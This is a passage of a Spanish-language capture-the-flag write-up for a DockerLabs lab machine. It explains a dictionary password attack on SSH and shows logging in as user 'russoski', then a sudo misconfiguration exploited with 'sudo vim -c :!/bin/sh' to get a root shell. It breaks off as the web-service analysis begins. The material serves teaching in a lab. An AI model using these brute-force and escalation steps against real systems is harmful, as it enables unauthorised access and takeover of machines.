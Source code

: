 * Con -P indicamos un conjunto de contraseñas a probar, en este caso, las recogidas en el diccionario.
* Por último indicamos el servicio y la dirección sobre la que ejecutar el ataque.

Vemos que este ataque ha sido satisfactorio y hemos encontrado una contraseña válida para el usuario *russoski*.
Ahora que ya tenemos usuario y contraseña accederemos al servicio SSH para comenzar con el escalado de privilegios.
```ruby
❯ ssh russoski@172.17.0.2
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 16 13:15:06 2025 from 172.17.0.1
russoski@9cc448a7c0a7:~$ whoami
russoski
``` 

Una vez dentro de la máquina víctima, vamos a intentar listar todos los privilegios de sudo del usuario actual. Es decir, mostrar qué comandos puede ejecutar con sudo y cómo. 
```ruby
russoski@9cc448a7c0a7:~$ sudo -l
Matching Defaults entries for russoski on 9cc448a7c0a7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 9cc448a7c0a7:
    (root) NOPASSWD: /usr/bin/vim
```
Sabiendo que podemos ejecutar Vim[^1] con permisos de administrador, podemos buscar en [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) alguna forma de establecer una shell remota, puesto que esta se ejecutará con los permisos del usuario que la haya lanzado. 
![GTFOBins vim](https://github.com/JavieRR13/WriteUps/blob/15cc9e2a9780218e32fb4a67bedf059c0229067a/DockerLabs/Muy%20f%C3%A1cil/Obsession/Im%C3%A1genes/Obsession_GTFOBinsvim.png)
```ruby
russoski@9cc448a7c0a7:~$ sudo vim -c ':!/bin/sh'

# whoami
root
# 
```
🥳CONSEGUIDO, SOMOS ROOT🥳
[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.
____________________________________________________________________________________________
### 2. ANALISIS HTTP
La otra opción sería analizar el servicio web.  Para ello nos dirigimos al navegador y escribimos la dirección IP en el buscador.  Esto nos llevará a un sitio web de lo que parece ser publicidad deportiva con un formulario.
![Formulario web]()